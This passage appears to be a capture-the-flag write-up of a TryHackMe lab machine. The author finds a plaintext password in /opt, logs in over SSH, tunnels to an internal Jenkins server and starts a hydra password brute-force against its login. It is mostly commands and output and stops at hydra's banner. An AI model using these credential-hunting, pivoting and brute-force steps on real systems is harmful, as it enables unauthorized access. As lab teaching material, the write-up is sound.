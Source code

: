 $ cat /etc/cron.daily/passwd
#!/bin/sh

cd /var/backups || exit 0

for FILE in passwd group shadow gshadow; do
        test -f /etc/$FILE              || continue
        cmp -s $FILE.bak /etc/$FILE     && continue
        cp -p /etc/$FILE $FILE.bak && chmod 600 $FILE.bak
done
$ ls /var/backups
alternatives.tar.0
apt.extended_states.0
apt.extended_states.1.gz
dpkg.diversions.0
dpkg.statoverride.0
dpkg.status.0
group.bak
gshadow.bak
passwd.bak
shadow.bak
$  

unfortunately I am not allowed to read /var/backups only root has read perms after digging around I find a text file in /opt

$ cat /opt/wp-save.txt
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
$ 
we now have aubreanna's password so we login with her SSH credentials

Last login: Mon Aug  3 19:56:19 2020 from 10.6.2.56
aubreanna@internal:~$ ls
jenkins.txt  snap  user.txt
aubreanna@internal:~$ cat user.txt
THM{int3rna1_fl4g_1}
aubreanna@internal:~$ cat jenkins.txt
Internal Jenkins service is running on 172.17.0.2:8080
aubreanna@internal:~$ 

and get the user flag and info about a jenkins server, problem is that its on a different internal network so I have to pivot. I did something similar in so by setting the local and remote ports for a port forwarded ssh tunnel we can logon to 172.17.0.2 
┌──(kali㉿kali)-[~]
└─$ ssh -L 8080:172.17.0.2:8080 aubreanna@10.10.5.22
and then open a web browser on 127.0.0.1:8080 and I get the jenkins interface none of the default credentials work and I didn't see anything else about the jenkins server


┌──(kali㉿kali)-[~]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 127.0.0.1 -s 8080 http-form-post "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^:F=Invalid username or password"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
